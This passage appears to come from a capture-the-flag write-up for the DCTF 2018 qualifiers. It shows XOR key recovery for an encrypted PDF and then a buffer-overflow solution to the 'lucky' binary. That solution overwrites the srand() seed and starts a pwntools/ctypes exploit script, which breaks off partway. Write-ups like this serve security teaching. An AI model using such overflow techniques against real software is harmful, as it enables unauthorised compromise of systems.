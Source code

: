 ```python

key = [' '] * 60
for offset in range(60):
    for c in allchar:
        r1, r2 = count(offset, ord(c))
        if r1[0] == 32:
            key[offset] = c
print(''.join(key))
```
Now the output didn't recreate the whole key, there are three spaces. I filled in those manually by comparing the first 60-bytes of xored output with known PDF-files and filled in the blanks. Then in the second 60-byte block there was a long row of 0x20 bytes, with 2 places sticking out with other values. I adjusted the key to get 0x20 there too and finally got the key:
```
cat key.txt
:P-@uSL"Y1K$[X)fg[|".45Yq9i>eV)<0C:('q4nP[hGd/EeX+E7,2O"+:[2
xorfiles xorfiles youfool\!.exe key.txt > flag.pdf
```


# Lucky?
### Exploit: 50p

[lucky](https://dctf.def.camp/dctf-18-quals-81249812/lucky)

Similar to SimplePass. I started to dump the library and syscalls with ltrace
while it was running:
```
Hello, there!

What is your name?
A
I am glad to know you, A!
If you guess the next 100 random numbers I shall give you the flag!

What number am I thinking of? [0/100]
5
Wow that is wrong!
```
Now gdb crashed when I tried to start debugging, I think it is because there is no main function. But early on it calls srand() so I did:
```
gdb lucky
break srand
run
```
That worked. It calls srand(), asks for name, calls strcpy(), then calls srand() again and then loops 100 times asking for a number. The correct number is generated by a call to rand(). The seed for srand() is taken from /dev/urandom. But we can overwrite the seed by overflowing the buffer for name. After experimenting a while with the length (and using gdb-peda to search the stack for my input and the seed) I finally got it to work. Python has this handy ctypes thing that can be used to call libc-functions directly from python. In this case srand() and rand().
```python
#!/usr/bin/env python2

from ctypes import *
from pwn import *
context.arch='amd64'

# I found this length using gdb
name = 'A' * 0x2c0

libc = cdll.LoadLibrary('libc.so.6')
libc.srand(0x41414141)
```